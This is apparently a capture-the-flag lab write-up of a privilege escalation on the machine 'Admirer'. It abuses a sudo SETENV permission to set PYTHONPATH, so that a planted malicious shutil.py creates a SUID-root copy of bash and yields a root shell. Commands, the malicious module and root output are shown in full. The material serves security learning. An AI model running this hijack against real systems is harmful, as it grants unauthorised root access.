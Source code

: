 # 15 - PrivEsc


# admin_tasks.sh
```bash
waldo@admirer:/opt/scripts$ sudo -l 
[sudo] password for waldo: 
Matching Defaults entries for waldo on admirer:
    env_reset, env_file=/etc/sudoenv, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, listpw=always

User waldo may run the following commands on admirer:
    (ALL) SETENV: /opt/scripts/admin_tasks.sh
```

The unique thing about this permission on admin_tasks is that we can set the environment with sudo. By default sudo inherits the environment of the *user* (mostly root) instead of the invoking user. With this privilege the invoking user can set the environment as they wish.


```bash
waldo@admirer:/opt/scripts$ ls -l
total 8
-rwxr-xr-x 1 root admins 2613 Dec  2  2019 admin_tasks.sh
-rwxr----- 1 root admins  198 Dec  2  2019 backup.py
```


# admin_tasks.sh
```bash
waldo@admirer:/opt/scripts$ cat admin_tasks.sh  
backup_web()
        echo "Running backup script in the background, it might take a while..."
        /opt/scripts/backup.py &

```

admin_tasks.sh runs backup.py

# backup.py
```bash
waldo@admirer:/opt/scripts$ cat backup.py 
#!/usr/bin/python3

from shutil import make_archive

src = '/var/www/html/'

# old ftp directory, not used anymore
#dst = '/srv/ftp/html'

dst = '/var/backups/html'

make_archive(dst, 'gztar', src)
```

backup.py imports shutil library in order to execute make_archive. Privilege escalation from here is fairly simple. With the SETENV privilege we can preload shutil library with an environment variable pointing to our own shutil.py


# shutil.py (malicious)
```py
waldo@admirer:/dev/shm$ cat shutil.py
import os
def make_archive(x,y,z):
        os.system("cp /bin/bash /home/waldo/bash")
        os.system("chown root:root /home/waldo/bash")
        os.system("chmod u+s /home/waldo/bash")
```
This copies /bin/bash to /home/waldo/bash. I am in /dev/shm because I didn't know that /dev/shm is mounted as nosuid.



# root
```
waldo@admirer:/dev/shm$ echo 6| sudo PYTHONPATH=$(pwd) /opt/scripts/admin_tasks.sh 2>/dev/null
waldo@admirer:/dev/shm$ ~/bash -p
bash-4.4# id
uid=1000(waldo) gid=1000(waldo) euid=0(root) groups=1000(waldo),1001(admins)
bash-4.4# 
```
